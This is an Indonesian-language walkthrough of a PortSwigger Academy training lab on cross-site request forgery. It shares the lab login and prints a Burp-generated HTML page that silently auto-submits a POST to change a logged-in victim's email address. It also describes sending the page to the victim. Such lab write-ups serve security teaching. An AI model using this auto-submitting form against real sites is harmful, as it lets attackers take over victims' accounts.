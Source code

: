 
# CSRF vulnerability with no defenses

Lab ini memiliki fungsi untuk mengubah alamat email yang **rentan terhadap serangan CSRF**.

**Untuk menyelesaikan lab ini**, kita harus membuat HTML yang akan memanfaatkan **CSRF attack** untuk mengubah alamat email milik orang yang mengakses halaman tersebut, lalu mengunggah HTML tersebut ke exploit server.

Anda dapat login ke akun Anda sendiri dengan kredensial berikut:
```
Username: wiener
Password: peter
```

> **Hint**: Anda tidak bisa mendaftarkan atau mengubah ke alamat email yang sudah terpakai oleh pengguna lain. Jika Anda mengubah email Anda sendiri saat menguji exploit, pastikan menggunakan alamat email yang berbeda saat mengirimkan exploit final ke korban.

---

### Referensi
- [PortSwigger CSRF Documentation](https://portswigger.net/web-security/csrf)

---

### Fungsi untuk memperbarui email pengguna

![img](images/CSRF%20vulnerability%20with%20no%20defenses/1.png)

Formulir ini melakukan **request POST**. Dengan menggunakan Burp Suite (menu **Engagement tools** > **Generate CSRF PoC**), akan dihasilkan HTML **proof of concept** CSRF.

![img](images/CSRF%20vulnerability%20with%20no%20defenses/2.png)

Di bawah ini adalah **contoh PoC** yang dihasilkan:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ac5004c04ed095e819302fc004d00f6.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test2&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

---

## Penjelasan Singkat PoC

- **Form HTML** mengarahkan request ke endpoint `/my-account/change-email` dengan method **POST**.
- **Field tersembunyi (`<input type="hidden">`)** berisi `name="email"` dan value yang dituju, misalnya `test2@test.com`.  
- **Script** otomatis men-submit form ( `document.forms[0].submit()` ), sehingga korban tidak perlu menekan tombol secara manual.  
- Dengan demikian, **saat korban mengunjungi halaman HTML ini**, browser korban akan mengirim request POST ke situs rentan **untuk mengubah email korban** ke `test2@test.com` (atau alamat lain yang Anda tentukan).

> **Jangan lupa** untuk menggunakan alamat email yang **belum terpakai** dalam aplikasi ini agar exploit berhasil.

**Langkah akhir**: Unggah HTML PoC ini ke **exploit server** dan kirim link tersebut ke korban. Jika korban masih login ke situs tersebut dan membuka link itu, maka email korban akan berubah.
